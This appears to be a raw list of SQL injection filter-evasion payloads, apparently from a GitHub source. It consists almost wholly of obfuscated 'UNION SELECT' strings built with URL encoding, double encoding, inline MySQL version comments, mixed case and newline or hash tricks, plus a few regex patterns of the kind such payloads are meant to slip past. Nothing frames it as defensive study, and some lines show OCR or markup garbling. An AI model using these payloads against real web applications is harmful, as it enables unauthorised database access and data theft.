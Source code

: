 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
+UnIoN/*&a=*/SeLeCT/*&a=*/
union+sel%0bect
+uni*on+sel*ect+
+#1q%0Aunion all#qa%0A#%0Aselect
union(select (1),(2),(3),(4),(5))
UNION(SELECT(column)FROM(table))
%23xyz%0AUnIOn%23xyz%0ASeLecT+
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+
union(select(1),2,3)
union (select 1111,2222,3333)
uNioN (/*!/**/ SeleCT */ 11)
union (select 1111,2222,3333)
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/
+%23sexsexsex%0AUnIOn%23sexsexs ex%0ASeLecT+
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/
+%23blobblobblob%0aUnIOn%23blobblobblob%0aSeLe cT+
/*!blobblobblob%0d%0aunion*/+/*!blobblobblob%0d%0aSelEct*/
/union\sselect/g
/union\s+select/i
/*!UnIoN*/SeLeCT
+UnIoN/*&a=*/SeLeCT/*&a=*/
+uni>on+sel>ect+
+(UnIoN)+(SelECT)+
+(UnI)(oN)+(SeL)(EcT)
+’UnI”On’+'SeL”ECT’
+uni on+sel ect+
+/*!UnIoN*/+/*!SeLeCt*/+
/*!u%6eion*/ /*!se%6cect*/
uni%20union%20/*!select*/%20
union%23aa%0Aselect
/**/union/*!50000select*/
/^.*union.*$/ /^.*select.*$/
/*union*/union/*select*/select+
/*uni X on*/union/*sel X ect*/
+un/**/ion+sel/**/ect+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?<ion sel="">+un/**/ion+se/**/lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*!UnIoN*/SeLecT+
